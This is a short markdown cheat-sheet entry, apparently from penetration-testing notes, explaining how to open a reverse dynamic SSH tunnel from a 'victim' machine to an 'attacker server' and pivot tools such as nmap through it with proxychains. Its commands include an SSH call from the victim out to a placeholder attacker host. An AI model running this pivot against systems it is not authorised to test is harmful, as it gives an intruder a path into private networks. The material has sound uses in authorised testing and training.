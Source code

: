 # Reverse dynamic ssh tunnels

**Description:** This entry describes how to setup a reverse dynamic ssh tunnel from a victim machine

**Requirements:** ssh, proxychains

## Host (Victim) machine

```
ssh -R 2222 <user>@<attacker_server>
```

Run this command from the host machine to create a reverse dyanmic tunnel.

## Attacker server

```
apt install proxychains
```

Install proxychains

```
vim /etc/proxychains.conf

# Edit this line
socks4 127.0.0.1 2222
```

Open and update the proxychains configuration to the port specified in your previous command e.g. 2222

```
proxychains <supported_tool>
```

Run proxychains with supported tools such as nmap and the traffic will go through the host (victim machine)
  
## References
* https://www.openssh.com/txt/release-7.6